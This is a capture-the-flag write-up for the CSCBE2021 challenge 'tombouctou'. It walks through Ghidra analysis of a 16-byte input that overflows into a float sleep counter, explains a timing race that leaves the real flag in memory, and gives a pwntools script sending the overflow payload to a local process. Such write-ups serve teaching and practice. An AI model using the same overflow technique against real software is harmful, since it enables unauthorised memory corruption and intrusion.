 This challenge was given during the final of CSCBE2021. I found it back on a hard drive and decided to solve it 2 years later. 

As the instance is not up anymore, I solved it locally by creating an environment variable called FLAG in my linux machine. 

First, let's open the binary in ghidra to analyze the code (it has already been cleaned up and renames for simplicity) : 

![Decompiling in Ghidra](Images/Ghidra.png)

As we can see, we have two interesting variables 

- A vulnerable input of 16 bytes
- A (float) counter, initially set to 0.01

The software behaves as following

1. The program checks if counter is smaller than 2.5 seconds
2. It creates two threads : one setting in memory the wrong flag and sleeping for counter seconds before redoing it 
3. It waits 1 second before setting the right flag in memory
4. It waits the user to press enter before printing the flag which is at this moment in memory

So the plan is the following 

1. Overflow counter to 2.0 seconds. 2 seconds correspond to 0x40000000 in hex. 
2. Wait at least one second but less than 2 seconds to press enter
3. Grab the flag

The exploit is thus the following :

```python 
from pwn import *
import time

p = process("./tombouctou")

payload = b"A" * 16  
payload += p32(0x40000000)  #2.0 (float) seconds in hex is 0x40000000
p.sendlineafter(b"Enter you name: ", payload)

# Waiting between 1 and 2 secondes
time.sleep(1.4)

# Sending enter
p.sendline("")

response = p.recvall()
print(response)

```

